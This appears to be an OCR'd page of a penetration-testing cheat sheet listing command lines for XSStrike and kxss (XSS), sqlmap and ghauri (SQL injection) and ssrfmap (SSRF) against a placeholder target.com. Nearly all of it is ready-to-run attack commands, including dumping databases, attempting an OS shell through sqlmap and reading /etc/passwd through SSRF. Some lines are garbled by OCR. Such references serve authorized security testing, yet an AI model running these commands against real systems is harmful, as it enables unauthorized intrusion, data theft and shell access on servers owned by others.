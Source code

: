     :- Custom payloads and headers
    xsstrike -u "https://target.com/input?val=1" -f /path/to/payloads.txt --headers "Cookie: SESSID=123" 
    
    :- Test JSON input in POST body, path discovery
    xsstrike -u "https://target.com/api" --json --path -d '{"key":"FUZZ"}' -o xsstrike_json.html 

    
    :- Simple Reflected XSS scanner
    kxss 'https://target.com/index.php?p=FUZZ'
    
    :- Pipe URL and set custom parameters like cookies
    echo 'https://target.com/q=FUZZ' | kxss -p 'Cookie: test=kXSS'

### SQL Injection Testing    
    :- Automated SQLi, enumerate databases
    sqlmap -u "https://target.com/product?id=1" --batch --level 3 --risk 2 --dbs 
    
    :- Test POST request, 5 threads
    sqlmap -u "https://target.com/search.php" --data="query=keyword" --dbs --threads 5 
    
    :- Specify parameter, use tamper script, get current user
    sqlmap -u "https://target.com/user?id=1" -p id --tamper=space2comment --random-agent --current-user 
    
    :- Load request from file, attempt OS shell
    sqlmap -l request.txt --level 5 --risk 3 --os-shell
    
    :- Specify DBMS, get banner
    sqlmap -u "https://target.com/vuln.php?id=1&cat=2" --dbms=MySQL --banner
    
    :- Test forms found by crawling
    sqlmap -u "https://target.com/login" --forms --crawl=2 --batch

:- Load raw HTTP request, specify parameter, use specific techniques (boolean, error, union, stacked, time-based, inline), 

    :-ump data
    sqlmap -r post_request.txt -p username --technique=BEUSQ --dump
    
    :- Manual injection point with eval for dynamic payloads
    sqlmap -u "https://api.target.com/items?filter=FUZZ" --eval="import time; time.sleep(0.1)" --prefix="'" --suffix="-- -" 

    
    :- Modern SQLi scanner, list DBs
    ghauri -u "https://target.com/search.php?q=test" --dbs
    
    :- Scan from request file, specify parameter
    ghauri -r request_file.txt -p vulnerable_param --level 3 --risk 2

### SSRF (Server-Side Request Forgery) Testing    
    :- Automated SSRF exploitation on 'url' parameter
    ssrfmap -r request_for_ssrf.txt -p url -m http,gopher --lhost your_server_ip 
    
    :- Use Interactsh for OOB detection
    ssrfmap -r req.txt -p file --handler interactsh
    
    :- Attempt to read local files via SSRF
    ssrfmap -r req.txt -p u --module readfiles --lfile /etc/passwd
